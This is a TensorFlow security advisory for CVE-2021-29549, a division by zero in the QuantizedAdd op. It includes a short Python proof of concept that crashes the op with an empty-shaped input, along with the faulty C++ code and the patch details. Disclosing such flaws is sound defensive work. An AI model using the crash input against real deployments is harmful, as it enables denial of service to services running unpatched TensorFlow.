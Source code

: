 ## TFSA-2021-037: Division by 0 in `QuantizedAdd`

### CVE Number
CVE-2021-29549

### Impact
An attacker can cause a runtime division by zero error and denial of service in
`tf.raw_ops.QuantizedAdd`:

```python
import tensorflow as tf

x = tf.constant([68, 228], shape=[2, 1], dtype=tf.quint8)
y = tf.constant([], shape=[2, 0], dtype=tf.quint8)

min_x = tf.constant(10.723421015884028)
max_x = tf.constant(15.19578006631113)
min_y = tf.constant(-5.539003866682977)
max_y = tf.constant(42.18819949559947)

tf.raw_ops.QuantizedAdd(x=x, y=y, min_x=min_x, max_x=max_x, min_y=min_y, max_y=max_y)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/6f26b3f3418201479c264f2a02000880d8df151c/tensorflow/core/kernels/quantized_add_op.cc#L289-L295)
computes a modulo operation without validating that the divisor is not zero.

```cc
void VectorTensorAddition(const T* vector_data, float min_vector,
                          float max_vector, int64 vector_num_elements,
                          const T* tensor_data, float min_tensor,
                          float max_tensor, int64 tensor_num_elements,
                          float output_min, float output_max, Toutput* output) {
  for (int i = 0; i < tensor_num_elements; ++i) {
    const int64 vector_i = i % vector_num_elements;
    ...
  }
}
```

Since `vector_num_elements` is [determined based on input
shapes](https://github.com/tensorflow/tensorflow/blob/6f26b3f3418201479c264f2a02000880d8df151c/tensorflow/core/kernels/quantized_add_op.cc#L522-L544),
a user can trigger scenarios where this quantity is 0.

### Patches
We have patched the issue in GitHub commit
[744009c9e5cc5d0447f0dc39d055f917e1fd9e16](https://github.com/tensorflow/tensorflow/commit/744009c9e5cc5d0447f0dc39d055f917e1fd9e16).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
